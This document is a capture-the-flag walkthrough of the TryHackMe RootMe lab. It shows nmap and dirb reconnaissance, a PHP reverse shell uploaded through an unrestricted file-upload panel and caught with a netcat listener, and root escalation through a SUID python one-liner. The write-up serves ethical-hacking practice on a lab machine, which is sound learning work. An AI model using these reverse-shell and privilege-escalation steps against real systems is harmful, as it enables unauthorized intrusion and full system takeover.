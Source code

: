 # RootMe Walkthrough


One of the best ways to learn ethical hacking is to practice it. So below is a walkthrough of the [RootMe Room on THM](https://tryhackme.com/room/rrootme)

# Reconnaissance

## Nmap
As with most machines, I began with an Nmap scan - which answers the first few questions. 

I firstly scanned with sV to determine the software versions, however as the target wouldn't respond to host discovery, I had to disable it using the -Pn option.

```sh
$ nmap -sV -Pn 10.10.130.205
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-03 20:08 BST
Nmap scan report for 10.10.130.205
Host is up (0.068s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.90 seconds
```

## Directory Searching

Next we had to preform a directory brute force, so I started dirb.

```sh
$ dirb http://10.10.130.205

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Mon May  3 20:09:00 2021
URL_BASE: http://10.10.130.205/
WORDLIST_FILES: /data/data/com.termux/files/usr/share/dirb/wordlists/common.txt

-----------------
GENERATED WORDS: 4612

---- Scanning URL: http://10.10.130.205/ ----
                                                                                    ==> DIRECTORY: http://10.10.130.205/css/
+ http://10.10.130.205/index.php (CODE:200|SIZE:616)
==> DIRECTORY: http://10.10.130.205/js/
==> DIRECTORY: http://10.10.130.205/panel/
```

# Getting a Shell

From the recon above, we discover the page /panel/ and when we navigate to that page, we are presented with a file upload area.

Now I wondered if we could upload a shell and as we know the server runs Apache I grabbed the [Pentest Monkey Reverse PHP Shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).

Firstly, we setup a netcat listener ready to receive the shell on the attacking machine.

```sh
$ nc -nvlp 1234
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
```

Next I edited line 49 of the shell to match my attacking machine's IP address and uploaded it to the website.

Once we uploaded the file, we are provided with a success message; it says Veja - which means go. So if you click on the link it will open the file, this will cause the page to freeze.

Now we return to the netcat listener and we have received a shell and can find the user flag.

# Privilege Escalation

Now we have found the user flag, we need to escalate our privileges. To do this, I used to find files with a SUID bit.

```sh
find / -perm /4000 2>/dev/null
```

From that, you need to look at the list and see if there are any unusual files. Unfortunately, this step needs experience for you to know what is unusual; therefore I advise that you enter the file names into [GTFObins](https://gtfobins.github.io/) and looking for SUID exploits.

After running down the list, you discover that python has a SUID vulnerability, so now you run it on the reverse shell.

Once the exploit is complete, I use the whoami command to check it worked

```sh
usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
whoami
root
```

From here you need to find the root flag by outputting the file in the root users home directory.

